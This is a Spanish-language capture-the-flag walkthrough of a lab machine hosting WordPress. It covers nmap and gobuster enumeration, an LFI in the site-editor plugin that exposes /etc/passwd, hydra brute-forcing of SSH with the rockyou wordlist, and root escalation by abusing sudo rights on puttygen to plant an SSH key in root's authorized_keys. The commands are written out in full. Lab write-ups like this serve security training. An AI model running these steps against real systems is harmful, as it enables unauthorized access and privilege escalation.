






- Tags: #wordpress #PluguinWordPress #puttygen 
_____
Se comienza la máquina aplicando el escaneo básico de reconocimiento con nmap.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPort
```

PORT STATE SERVICE

> 22/tcp open ssh

> 80/tcp open http

_____________________________________________________________________

Para posteriormente realizar otro escaneo con nmap y aplicar los scripts básicos de reconocimiento donde conoceremos las versiones y servicios que están corriendo en cada puerto

```shell
nmap -p 22,80 172.17.0.22 -sCV -oN target
```

> 22/tcp open ssh OpenSSH 9.2p1 Debian

> 80/tcp open http Apache httpd 2.4.59 ((Debian)

Vemos que tenemos dos puertos abiertos, además tenemos versiones y sabemos que corre por cada puerto, es hora de investigar a que nos enfrentamos visitando la página web.
_____

____
Podemos utilizar el Wappalyzer que es una extensión de Firefox para ver qué gestores de contenido están alojados en la web, en este caso tenemos a WordPress en una versión un tanto desactualizada, por lo que seguramente es vulnerable.

Antes de pasar a la fase de reconocimiento del WordPress podemos realizar fuzzing para encontrar subdirectorios y basándonos en lo que encontremos podremos ver si nos es útil o no.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
```

Con este comando podremos enumerar múltiples subdirectorios, además de extensiones de archivos como php, txt y html, así como un nuevo dominio para el cual debemos aplicar virtual hosting para que nos resuelva el dominio con la IP.
____

____
El nuevo dominio que encontramos es http://asucar.dl

La información que obtuvimos del escaneo con gobuster también la podemos conseguir si revisamos minuciosamente el código fuente de la página principal, y es lo que haremos, ya que en el código fuente podremos encontrar una dirección URL que nos puede ayudar a enumerar usuarios.
____

______
En este caso encontramos un usuario que está registrado en el WordPress, pero no tenemos su contraseña para acceder por la página de login.

Por lo que haremos ahora es enumerar el gestor de contenido (WordPress) y ver que encontramos en cuanto a Themes, Plugins u otros usuarios.

Lo podemos hacer de dos formas.

1) MANUALMENTE

Es la que recomiendo hacer porque se aprende mucho de las rutas y/o directorios donde se aloja información sensible, además de tener una noción más amplia de que es lo que hace y como funciona una herramienta automatizada como Wpscan.

2) AUTOMATIZADA

Tenemos herramientas como Wpscan que nos automatiza el reconocimiento del CMS además de indicarnos si existen vulnerabilidades de lo que enumere por ejemplo un plugin.

Yo elijo la opción número 1.

Apliquemos reconocimiento manualmente, empezamos enumerando plugins y lo haremos con el comando Curl aplicando un filtrado con el comando grep para que nos muestre solo los plugins existentes.

```shell
curl -s -X GET http://asucar.dl | grep "plugins"
```

Enumeramos un plugin site-editor por lo que buscaremos con searchsploit y veamos que encontramos.
____

___
Tenemos una vulnerabilidad LFI (Local File Inclusion) que nos sirve para la versión del plugin que encontramos, vemos el contenido para saber como se acontece esta vulnerabilidad por medio del plugin especifico.
_____

___
Seguimos la ruta especificada en él .txt lo cual nos llevara a poder ver el archivo /etc/passwd de la máquina víctima y así poder enumerar usuarios existentes en la misma.

He de recalcar que intente explotar un log poisoning, pero no encontré un vector de entrada para esta vulnerabilidad, por lo que solo se enumeró un usuario: curiosito.

El siguiente paso será aplicar fuerza bruta con hydra para ver si obtenemos alguna contraseña para el usuario curiosito y así poder conectarnos por ssh.

```shell
hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16
```

Tenemos éxito con hydra y nos reporta una contraseña para el usuario curiosito. Por lo que nos conectamos con ssh.
____

____
Aplicamos el comando `sudo -l` y vemos que podemos ejecutar puttygen como root y sin proporcionar contraseña.

## ESCALADA DE PRIVILEGIOS.

Podemos realizar la escalada de privilegios con:

```shell
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id

puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys

sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/id

sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
```

Explicación de como funciona

- 1.
    **Generar una clave RSA de 2048 bits y guardarla como clave privada en formato OpenSSH:**
    `puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id`
- 2.
    **Agregar la clave pública generada al archivo** `authorized_keys`**:**
    
    `puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys`
- 3.
    **Convertir y copiar la clave privada al directorio** `root`**:**
    
    `sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/id`
- 4.
    
    **Convertir la clave privada a una clave pública y guardarla en** `authorized_keys` **del directorio** `root`**:**
    
    `sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh`

Estos comandos generan una clave SSH, añaden la clave pública a `authorized_keys` para permitir el acceso SSH, y copian las claves al directorio `root` para habilitar acceso SSH sin contraseña para el usuario `root`.

Ahora debemos descargar el archivo ==id== en nuestra máquina.

```shell
scp curiosito@172.17.0.2:/home/curiosito/.ssh/id .
```

```shell
ssh -i id root@172.17.0.2
```

Y de esta forma nos conectamos como el usuario root.